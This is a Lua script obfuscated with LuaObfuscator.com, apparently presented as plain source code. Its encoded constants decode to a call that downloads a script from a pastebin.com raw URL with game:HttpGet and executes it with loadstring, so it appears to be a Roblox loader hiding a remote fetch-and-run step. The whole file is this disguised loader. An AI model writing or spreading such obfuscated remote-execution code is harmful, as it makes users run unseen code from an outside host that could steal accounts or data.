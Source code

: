 --[[
 .____                  ________ ___.    _____                           __                
 |    |    __ _______   \_____  \\_ |___/ ____\_ __  ______ ____ _____ _/  |_  ___________ 
 |    |   |  |  \__  \   /   |   \| __ \   __\  |  \/  ___// ___\\__  \\   __\/  _ \_  __ \
 |    |___|  |  // __ \_/    |    \ \_\ \  | |  |  /\___ \\  \___ / __ \|  | (  <_> )  | \/
 |_______ \____/(____  /\_______  /___  /__| |____//____  >\___  >____  /__|  \____/|__|   
         \/          \/         \/    \/                \/     \/     \/                   
          \_Welcome to LuaObfuscator.com   (Alpha 0.10.8) ~  Much Love, Ferib 

]]--

local v0=tonumber;local v1=string.byte;local v2=string.char;local v3=string.sub;local v4=string.gsub;local v5=string.rep;local v6=table.concat;local v7=table.insert;local v8=math.ldexp;local v9=getfenv or function() return _ENV;end ;local v10=setmetatable;local v11=pcall;local v12=select;local v13=unpack or table.unpack ;local v14=tonumber;local function v15(v16,v17,...) local v18=1;local v19;v16=v4(v3(v16,5),"..",function(v30) if (v1(v30,2)==81) then v19=v0(v3(v30,1,1));return "";else local v82=v2(v0(v30,16));if v19 then local v89=v5(v82,v19);v19=nil;return v89;else return v82;end end end);local function v20(v31,v32,v33) if v33 then local v83=(0 -0) -(1065 -(68 + 997)) ;local v84;while true do if (v83==(0 -0)) then v84=(v31/(((1273 -(226 + 1044)) -1)^(v32-(2 -1))))%((621 -(555 + 64))^(((v33-1) -(v32-((2569 -(1523 + 114)) -(857 + 74)))) + (569 -(367 + 201)))) ;return v84-(v84%(928 -(214 + 713))) ;end end else local v85=(1 + 1)^(v32-(1 + 0 + 0)) ;return (((v31%(v85 + v85))>=v85) and 1) or (877 -(282 + 595)) ;end end local function v21() local v34=v1(v16,v18,v18);v18=v18 + 1 ;return v34;end local function v22() local v35=117 -(32 + 85) ;local v36;local v37;while true do if (v35==(1 + 0)) then return (v37 * (57 + 199)) + v36 ;end if (v35==(957 -(892 + 65))) then v36,v37=v1(v16,v18,v18 + 2 );v18=v18 + (4 -2) ;v35=(1 -0) -0 ;end end end local function v23() local v38,v39,v40,v41=v1(v16,v18,v18 + 3 );v18=v18 + (354 -((213 -126) + 263)) ;return (v41 * (16777396 -(67 + 113))) + (v40 * (48056 + 17480)) + (v39 * 256) + v38 ;end local function v24() local v42=v23();local v43=v23();local v44=439 -(145 + 293) ;local v45=(v20(v43,1,15 + 5 ) * ((7 -5)^(984 -(802 + 150)))) + v42 ;local v46=v20(v43,56 -35 ,55 -24 );local v47=((v20(v43,(454 -(44 + 386)) + 8 )==1) and  -(998 -(915 + 82))) or (2 -(3 -2)) ;if (v46==(0 + 0)) then if (v45==0) then return v47 * (0 -0) ;else local v90=1187 -(1069 + 118) ;while true do if (v90==(0 -(1486 -(998 + 488)))) then v46=1 -0 ;v44=0 + 0 ;break;end end end elseif (v46==(3636 -1589)) then return ((v45==(0 + 0)) and (v47 * ((792 -(158 + 210 + 423))/(0 -0)))) or (v47 * NaN) ;end return v8(v47,v46-(1041 -(10 + (13 -5))) ) * (v44 + (v45/((7 -5)^(494 -(416 + 26))))) ;end local function v25(v48) local v49;if  not v48 then v48=v23();if (v48==(0 + 0)) then return "";end end v49=v3(v16,v18,(v18 + v48) -(1 + 0) );v18=v18 + v48 ;local v50={};for v65=773 -(201 + 571) , #v49 do v50[v65]=v2(v1(v3(v49,v65,v65)));end return v6(v50);end local v26=v23;local function v27(...) return {...},v12("#",...);end local function v28() local v51=(function() return 0 -0 ;end)();local v52=(function() return;end)();local v53=(function() return;end)();local v54=(function() return;end)();local v55=(function() return;end)();local v56=(function() return;end)();local v57=(function() return;end)();local v58=(function() return;end)();while true do local v67=(function() return 0;end)();while true do if (1~=v67) then else if (v51==(1519 -(1191 + 327))) then local v95=(function() return 0;end)();while true do if (0==v95) then v56=(function() return {v53,v54,nil,v55};end)();v57=(function() return v23();end)();v95=(function() return 1;end)();end if (v95==(1 + 0)) then v58=(function() return {};end)();for v138= #"}",v57 do local v139=(function() return 0;end)();local v140=(function() return;end)();local v141=(function() return;end)();local v142=(function() return;end)();while true do if (v139==0) then v140=(function() return 0;end)();v141=(function() return nil;end)();v139=(function() return 699 -(208 + 490) ;end)();end if (v139==(1 + 0)) then v142=(function() return nil;end)();while true do if (v140==(0 + 0)) then local v162=(function() return 0;end)();while true do if (v162~=1) then else v140=(function() return 837 -(660 + 176) ;end)();break;end if (v162==0) then v141=(function() return v21();end)();v142=(function() return nil;end)();v162=(function() return 1 + 0 ;end)();end end end if ((203 -(14 + 188))==v140) then if (v141== #">") then v142=(function() return v21()~=(675 -(534 + 141)) ;end)();elseif (v141==(1 + 1)) then v142=(function() return v24();end)();elseif (v141== #"19(") then v142=(function() return v25();end)();end v58[v138]=(function() return v142;end)();break;end end break;end end end v95=(function() return 2 + 0 ;end)();end if (v95~=2) then else v51=(function() return 2;end)();break;end end end break;end if (v67~=0) then else if (v51==(0 + 0)) then local v96=(function() return 0 -0 ;end)();while true do if (v96~=(2 -0)) then else v51=(function() return 1;end)();break;end if (v96==(2 -1)) then v54=(function() return {};end)();v55=(function() return {};end)();v96=(function() return 2;end)();end if (v96==(0 + 0)) then v52=(function() return function(v147,v148,v149) local v150=(function() return 0;end)();while true do if (v150==0) then local v159=(function() return 0;end)();while true do if ((0 + 0)==v159) then v147[v148-#"!" ]=(function() return v149();end)();return v147,v148,v149;end end end end end;end)();v53=(function() return {};end)();v96=(function() return 397 -(115 + 281) ;end)();end end end if (v51==(4 -2)) then v56[ #"91("]=(function() return v21();end)();for v98= #",",v23() do local v99=(function() return 0;end)();local v100=(function() return;end)();while true do if (v99==0) then v100=(function() return v21();end)();if (v20(v100, #"[", #"<")==(0 + 0)) then local v152=(function() return 0 -0 ;end)();local v153=(function() return;end)();local v154=(function() return;end)();local v155=(function() return;end)();while true do if (v152==(7 -5)) then if (v20(v154, #",", #"|")== #"\\") then v155[869 -(550 + 317) ]=(function() return v58[v155[2]];end)();end if (v20(v154,2 -0 ,2 -0 )~= #"\\") then else v155[ #"asd"]=(function() return v58[v155[ #"xxx"]];end)();end v152=(function() return 3;end)();end if (v152~=(2 -1)) then else local v160=(function() return 285 -(134 + 151) ;end)();while true do if (v160~=(1665 -(970 + 695))) then else v155=(function() return {v22(),v22(),nil,nil};end)();if (v153==(0 -0)) then local v168=(function() return 0;end)();local v169=(function() return;end)();while true do if (v168==0) then v169=(function() return 0;end)();while true do if (v169~=(1990 -(582 + 1408))) then else v155[ #"19("]=(function() return v22();end)();v155[ #".dev"]=(function() return v22();end)();break;end end break;end end elseif (v153== #",") then v155[ #"-19"]=(function() return v23();end)();elseif (v153==(6 -4)) then v155[ #"91("]=(function() return v23() -(2^(19 -3)) ;end)();elseif (v153~= #"gha") then else local v174=(function() return 0 -0 ;end)();local v175=(function() return;end)();while true do if (v174~=(1824 -(1195 + 629))) then else v175=(function() return 0 -0 ;end)();while true do if (v175==(241 -(187 + 54))) then v155[ #"91("]=(function() return v23() -((782 -(162 + 618))^16) ;end)();v155[ #"asd1"]=(function() return v22();end)();break;end end break;end end end v160=(function() return 1;end)();end if (v160~=(1 + 0)) then else v152=(function() return 2 + 0 ;end)();break;end end end if (v152==0) then v153=(function() return v20(v100,2, #"asd");end)();v154=(function() return v20(v100, #"0313",12 -6 );end)();v152=(function() return 1;end)();end if (v152==(4 -1)) then if (v20(v154, #"asd", #"-19")~= #"~") then else v155[ #".com"]=(function() return v58[v155[ #".dev"]];end)();end v53[v98]=(function() return v155;end)();break;end end end break;end end end for v101= #"!",v23() do v54,v101,v28=(function() return v52(v54,v101,v28);end)();end return v56;end v67=(function() return 1;end)();end end end end local function v29(v59,v60,v61) local v62=v59[1 + 0 ];local v63=v59[1638 -(1373 + 263) ];local v64=v59[1003 -(451 + 549) ];return function(...) local v68=v62;local v69=v63;local v70=v64;local v71=v27;local v72=115 -((11 -7) + 110) ;local v73= -(1 + 0);local v74={};local v75={...};local v76=v12("#",...) -(1 -0) ;local v77={};local v78={};for v86=0 -0 ,v76 do if ((2994>858) and (v86>=v70)) then v74[v86-v70 ]=v75[v86 + (1385 -(746 + 638)) ];else v78[v86]=v75[v86 + 1 + 0 ];end end local v79=(v76-v70) + ((1 + 0) -0) ;local v80;local v81;while true do v80=v68[v72];v81=v80[1 -0 ];if ((v81<=(344 -(218 + 123))) or (3755<=915)) then if (v81<=(1582 -(1535 + 46))) then if (v81==(0 + 0)) then v78[v80[(4 -3) + 1 ]]();else local v102=560 -(306 + 254) ;local v103;local v104;local v105;local v106;while true do if ((3946>3743) and (v102==(1 + 0))) then v73=(v105 + v103) -(3 -2) ;v106=(753 -(239 + 514)) -0 ;v102=1469 -(899 + 568) ;end if ((v102==(2 + 0)) or (1335>=3306)) then for v156=v103,v73 do v106=v106 + ((1 + 1) -1) ;v78[v156]=v104[v106];end break;end if ((4844>2253) and (v102==(0 + 0))) then v103=v80[605 -(268 + 335) ];v104,v105=v71(v78[v103](v13(v78,v103 + (291 -(60 + 230)) ,v80[575 -(426 + 146) ])));v102=1 + 0 ;end end end elseif (v81>(1458 -(282 + 1174))) then do return;end else local v107;local v108,v109;local v110;local v111;v78[v80[813 -(569 + (1571 -(797 + 532))) ]]={};v72=v72 + (2 -1) ;v80=v68[v72];v78[v80[1 + 1 ]]=v61[v80[1027 -(706 + 318) ]];v72=v72 + ((910 + 342) -(244 + 477 + 530)) ;v80=v68[v72];v78[v80[2]]=v61[v80[1274 -(945 + 326) ]];v72=v72 + (2 -1) ;v80=v68[v72];v111=v80[7 -5 ];v110=v78[v80[2 + 1 ]];v78[v111 + 1 + 0 ]=v110;v78[v111]=v110[v80[854 -((47 -27) + 830) ]];v72=v72 + 1 + 0 ;v80=v68[v72];v78[v80[702 -(271 + 429) ]]=v80[3 + 0 ];v72=v72 + (739 -(542 + (1398 -(373 + 829)))) ;v80=v68[v72];v111=v80[3 -1 ];v108,v109=v71(v78[v111](v13(v78,v111 + (1501 -(1408 + 92)) ,v80[1089 -(461 + 625) ])));v73=(v109 + v111) -((732 -(476 + 255)) + (1130 -(369 + 761))) ;v107=(746 + 542) -(993 + 295) ;for v135=v111,v73 do v107=v107 + 1 + 0 ;v78[v135]=v108[v107];end v72=v72 + (1172 -(418 + 753)) ;v80=v68[v72];v111=v80[1 + 1 ];v78[v111]=v78[v111](v13(v78,v111 + ((737 -331) -(118 + (543 -256))) ,v73));v72=v72 + 1 + 0 ;v80=v68[v72];v78[v80[1 + (239 -(64 + 174)) ]]();v72=v72 + 1 + 0 ;v80=v68[v72];do return;end end elseif (v81<=5) then if (v81>(533 -(406 + 123))) then local v127=v80[379 -(142 + 235) ];local v128=v78[v80[1772 -(1749 + 20) ]];v78[v127 + 1 + 0 ]=v128;v78[v127]=v128[v80[1 + 3 ]];else v78[v80[1324 -(1249 + 73) ]]=v61[v80[3]];end elseif (v81<=(3 + 3)) then v78[v80[1147 -(466 + 97 + 582) ]]={};elseif (v81==(16 -(12 -3))) then local v143=v80[(341 -(144 + 192)) -3 ];v78[v143]=v78[v143](v13(v78,v143 + (1901 -(106 + 1794)) ,v73));else v78[v80[1 + (217 -(42 + 174)) ]]=v80[3];end v72=v72 + 1 + 0 ;end end;end return v29(v28(),{},v17)(...);end return v15("LOL!043Q00030A3Q006C6F6164737472696E6703043Q0067616D6503073Q00482Q747047657403213Q00682Q7470733A2Q2F706173746562696E2E636F6D2F7261772F385175417174784800094Q00027Q00122Q000100013Q00122Q000200023Q00202Q00020002000300122Q000400046Q000200046Q00013Q00024Q0001000100016Q00017Q00",v9(),...);
